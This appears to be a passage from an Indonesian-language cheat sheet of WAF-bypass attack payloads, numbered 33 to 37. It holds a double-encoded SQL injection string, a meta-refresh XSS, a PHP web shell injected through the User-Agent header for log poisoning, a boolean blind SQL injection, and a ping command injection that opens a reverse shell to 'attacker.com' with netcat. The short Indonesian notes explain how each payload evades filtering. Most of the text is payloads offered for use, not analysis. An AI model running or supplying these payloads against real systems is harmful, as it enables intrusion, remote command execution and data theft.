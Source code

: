 
### **🛡️ 33. Double Encoding SQL Injection**  
```sql
%2527%2520OR%25201%253D1--%2520
```
**📌 Teknik:**  
✅ **Double Encoding** = Karakter khusus dikodekan dua kali.  
✅ `%2527` adalah `'` (kutip tunggal) setelah decoding ganda.  
✅ **Bypass WAF** dengan menyembunyikan payload di dalam encoding.  

---

### **🛡️ 34. XSS via Meta Refresh**  
```html
<meta http-equiv="refresh" content="0;url=javascript:alert(1)">
```
**📌 Teknik:**  
✅ **Meta Refresh XSS** = Mengeksekusi JavaScript melalui redirect.  
✅ `http-equiv="refresh"` digunakan untuk memuat URL berbahaya.  
✅ **Bypass WAF** karena tidak mengandung `<script>`.  

---

### **🛡️ 35. Log Poisoning Attack via User-Agent**  
```http
User-Agent: <?php system($_GET['cmd']); ?>
```
**📌 Teknik:**  
✅ **Log Poisoning** = Menyuntikkan kode PHP ke dalam log server.  
✅ `system($_GET['cmd'])` memungkinkan eksekusi perintah shell.  
✅ **Bypass WAF** karena payload dikirim melalui header HTTP.  

---

### **🛡️ 36. Blind SQL Injection with Boolean Logic**  
```sql
' OR 1=1 AND 'a'='a'--
```
**📌 Teknik:**  
✅ **Blind SQLi** = Mengeksekusi SQLi tanpa melihat output langsung.  
✅ `1=1 AND 'a'='a'` memastikan kondisi selalu benar.  
✅ **Bypass WAF** dengan memanipulasi ekspresi boolean.  

---

### **🛡️ 37. Command Injection via Ping**  
```bash
ping -c 1 127.0.0.1; nc -e /bin/sh attacker.com 4444
```
**📌 Teknik:**  
✅ **Command Injection** = Mengeksploitasi shell untuk menjalankan perintah.  
✅ `nc -e /bin/sh attacker.com 4444` membuka reverse shell.  
✅ **Bypass WAF** dengan menyamarkan payload dalam perintah ping.  

---